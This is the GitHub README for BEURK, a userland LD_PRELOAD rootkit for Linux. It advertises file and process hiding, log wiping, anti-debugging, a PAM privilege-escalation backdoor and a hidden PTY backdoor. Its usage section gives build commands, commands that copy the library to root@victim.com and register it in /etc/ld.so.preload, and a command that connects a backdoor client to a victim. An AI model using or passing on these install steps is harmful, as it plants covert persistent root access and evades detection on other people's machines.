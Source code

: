 BEURK
=====
[Getting Started] | [API Documentation] | [Contributing] | [TODO List]

[![Build Status](https://travis-ci.org/unix-thrust/beurk.svg?branch=master)](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues](https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues)](https://waffle.io/unix-thrust/beurk)
[![Coverage Status](https://img.shields.io/coveralls/unix-thrust/beurk.svg)](https://coveralls.io/r/unix-thrust/beurk)
[![Coverity Scan Build](https://img.shields.io/coverity/scan/4866.svg)](https://scan.coverity.com/projects/4866)
[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*

-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- Bypass unhide, lsof, ps, ldd, netstat analysis
- PAM backdoor for *local privilege escalation*
- Furtive PTY backdoor client

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    ./builder --arch=x64 # build an evil hooking library

```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client victim_ip:port # connect with furtive backdoor
```

-------------------------------------------------------------------------------

[![Throughput Graph](https://graphs.waffle.io/unix-thrust/beurk/throughput.svg)](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Getting Started]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[TODO List]: https://github.com/unix-thrust/beurk/blob/master/TODO.md
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev
